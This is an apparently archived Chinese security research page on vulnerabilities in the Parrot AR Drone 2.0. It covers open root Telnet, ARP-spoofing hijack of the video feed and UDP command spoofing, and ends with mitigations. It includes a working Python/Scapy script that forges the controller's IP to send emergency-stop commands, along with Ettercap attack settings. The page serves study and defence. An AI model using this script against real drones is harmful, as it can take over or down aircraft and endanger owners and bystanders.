



## 概述

本页面记录对 **Parrot AR Drone 2.0** 无人机的安全漏洞分析与渗透测试实战过程。该无人机采用**未加密的 2.4 GHz Wi-Fi** 与控制器通信，运行 **BusyBox v1.14.0**（Linux 内核 v2.6.27.44），存在多个严重安全缺陷：

- **开放 Telnet 服务（端口 23）**：无需密码直接获取 root 权限
- **视频流传输无加密认证**：可通过 ARP 欺骗实施中间人攻击劫持图传
- **UDP 控制协议序列号机制缺陷**：可伪造高序列号控制指令劫持飞行控制权

> 原文发布于 0th3rs 安全团队微信公众号，日期 2019-12-11，收录于 [[daily-security-digest-20191211]] 每日安全看点中。

---

## 设备架构与通信机制

### 硬件与系统

| 组件 | 规格 |
|------|------|
| 操作系统 | BusyBox v1.14.0 |
| Linux 内核 | v2.6.27.44 |
| 通信频段 | 2.4 GHz Wi-Fi（开放，无加密） |
| 控制应用 | AR.FreeFlight (iOS/Android) |

### 网络端口与协议

| 端口 | 协议 | 方向 | 功能 |
|------|------|------|------|
| 23 | TCP | 入站 | Telnet 服务（无认证，root 权限） |
| 5555 | TCP | 出站 | 视频流数据传输（仅发送给认证控制器 IP） |
| 5556 | UDP | 双向 | 控制指令传输（AT Commands，序列号机制） |

**关键通信特性**：
- 无人机同一时刻**仅与一个 IP 地址通信**（发送控制指令的设备）
- 视频流 (5555) 仅发送给当前认证的控制器
- 控制指令 (5556) 采用**递增序列号**决定优先级，序列号越高优先级越高

---

## 漏洞详情与利用分析

### 开放 Telnet 后门 (CVE 未分配)

**漏洞描述**：设备出厂默认开放 23 端口 Telnet 服务，**无需任何认证**，连接即获得 **root 权限**。

**影响**：攻击者可完全接管底层 Linux 系统，绕过所有应用层通信机制，实现持久化植入、固件篡改、飞行参数修改等。

**验证步骤**：
```bash
# 连接无人机 Wi-Fi 后
telnet 192.168.1.1
# 直接进入 root shell，无密码提示
```

> **注**：这是最直接、危害最大的漏洞。后续攻击假设 Telnet 已被禁用或不可用的前提下进行。

---

### 视频流中间人劫持 (MITM)

#### 攻击原理
无人机将视频流通过 TCP 5555 端口**单向发送**给当前认证的控制器 IP。攻击者接入同一 Wi-Fi 后，通过 **ARP 欺骗** 使无人机误认为攻击者设备为合法控制器，从而将视频流重定向至攻击者。

#### 攻击流程



#### 实施步骤

1. **接入 Wi-Fi**：连接无人机开放的热点
2. **内网扫描**：确定无人机 IP (通常 192.168.1.1) 与控制器 IP
3. **ARP 欺骗**：使用 Ettercap 配置中间人攻击
   - Target 1: 无人机 IP (192.168.1.1)
   - Target 2: 控制器 IP (192.168.1.2)
4. **视频解码**：运行官方 SDK 工具 `ardrone_navigation` 自动解码显示实时图传

#### Ettercap 配置示例
```
Target 1: 192.168.1.1 (Drone)
Target 2: 192.168.1.2 (Controller)
MITM -> ARP Poisoning -> Sniff Remote Connections
```

---

### UDP 控制指令劫持 (序列号伪造)

#### 协议缺陷分析
控制指令采用 **UDP 5556 端口**传输，格式为 `AT*REF=<sequence>,<command>\r`。无人机维护**单调递增序列号**，仅执行序列号**高于当前最大值**的指令。由于 UDP 无连接特性，无人机**仅验证源 IP 是否为当前认证控制器**，不验证序列号来源真实性。

#### 攻击向量
攻击者伪造**源 IP 为合法控制器 IP**、**序列号极大**的控制数据包，无人机将拒绝处理合法控制器后续发送的所有指令（序列号较低），实现控制权劫持。

#### 控制指令集 (AT Commands)

| 指令代码 | 功能 | 备注 |
|----------|------|------|
| 290718208 | 起飞 | Takeoff |
| 290717696 | 降落 | Landing |
| 290717952 | 急停 | Emergency Stop |

#### 攻击流程



#### 利用代码 (Python + Scapy)

```python
from scapy.all import *
from time import sleep

# 配置参数
srcIP = '192.168.1.2'   # 伪造源 IP (合法控制器 IP)
dstIP = '192.168.1.1'   # 无人机 IP
srcPort = 5556          # 源端口
dstPort = 5556          # 目标端口

# 发送高序列号急停指令 (290717952)
for i in range(1, 10):
    seq = 1000000 + i
    payload = f"AT*REF={seq},290717952\r"
    print(f"Sending: {payload.strip()}")
    
    # 构造伪造 UDP 包
    spoofed_packet = IP(src=srcIP, dst=dstIP) / \
                     UDP(sport=srcPort, dport=dstPort) / \
                     Raw(load=payload)
    
    send(spoofed_packet, verbose=0)
    sleep(0.3)
```

**关键点**：
- 必须伪造源 IP 为当前合法控制器 IP
- 序列号需显著大于正常范围 (如 1,000,000+)
- 持续发送维持控制权拒绝服务

---

## 防御对策与缓解措施

### 立即修复措施

| 措施 | 优先级 | 说明 |
|------|--------|------|
| **关闭 Telnet 服务 (端口 23)** | 🔴 最高 | 彻底消除无认证 root 访问，这是最根本的修复 |
| 启用 Wi-Fi 加密 (WPA2/WPA3) | 🔴 高 | 防止未授权设备接入网络，阻断攻击前置条件 |
| 使用可信接入点中转 | 🟡 中 | 无人机与控制器均接入受管企业级 AP，利用 AP 隔离与加密 |

### 协议层面加固建议 (厂商侧)

- **控制通道加密/签名**：引入 DTLS 或基于共享密钥的 HMAC 签名验证指令完整性与来源
- **序列号机制增强**：引入时间窗口、挑战-响应或单调计数器同步，防止序列号伪造重放
- **视频流加密**：采用 SRTP 或应用层加密保护图传机密性
- **设备配对绑定**：首次使用强制配对，后续仅接受绑定设备的控制指令

### 网络部署最佳实践



---

## 相关工具与资源

| 工具/资源 | 用途 | 链接 |
|-----------|------|------|
| **Ettercap** | ARP 欺骗中间人攻击框架 | https://www.ettercap-project.org/ |
| **Scapy** | Python 数据包构造/发送库 | https://scapy.net/ |
| **ardrone_navigation** | 官方 SDK 视频解码工具 | https://developer.parrot.com/ |
| **drone-hacking** | 无人机安全研究仓库 | https://github.com/markszabo/drone-hacking |

---

## 交叉引用与延伸阅读

- [[daily-security-digest-20191211]] - 当期每日安全看点，收录 DroneSploit 无人机渗透测试框架
- [[knob-bluetooth-bredr-key-negotiation-vulnerability]] - 蓝牙 KNOB 攻击，同属无线协议层面的中间人/降级攻击
- [[frp内网渗透应用]] - 内网穿透隧道技术，可用于无人机远程控制通道的隐蔽转发
- [[burpsuite-basics-tutorial]] - 渗透测试基础工具链，适用于无人机 Web/APP 接口测试
- [[cve-digest-20210404]] - TerraMaster NAS UPnP 暴露案例，同属 IoT 设备网络服务未授权访问问题

---

## 参考文献

1. **drone-hacking** - https://github.com/markszabo/drone-hacking (Accessed: 2016-05-11)
2. **Ettercap home page** - https://www.ettercap-project.org/ (Accessed: 2019-07-23)
3. **Parrot for developers** - https://developer.parrot.com/ (Accessed: 2019-07-23)
4. C. Peng. *Jpcap-based tcp/ip packet capture and transmission*. Journal of Changji University, 2008.
5. J. Pleban, R. Band, and R. Creutzburg. *Hacking and securing the ar.drone 2.0 quadcopter - investigations for improving the security of a toy*. 2014.
6. F. Samland, J. Fruth, M. Hildebrandt, T. Hoppe, and J. Dittmann. *Ar.drone: Security threat analysis and exemplary attack to track persons*. Proceedings of SPIE, 8301:15–, 2012.
7. P. E. Stephane Piskorski, Nicolas Brulez and F. D'Haeyer. *AR.Drone Developer Guide*. 2012.

---

> **作者**：Tay  
> **排版**：夜晓  
> **来源**：0th3rs 安全团队微信公众号归档 (2019-12-11)
> **归档索引**：[[0th3rs-security-team-wechat-archive-201911-202204]]

## 来源

- [0w1Club-201908-202207_11](../sources/0w1Club-201908-202207_11.md)
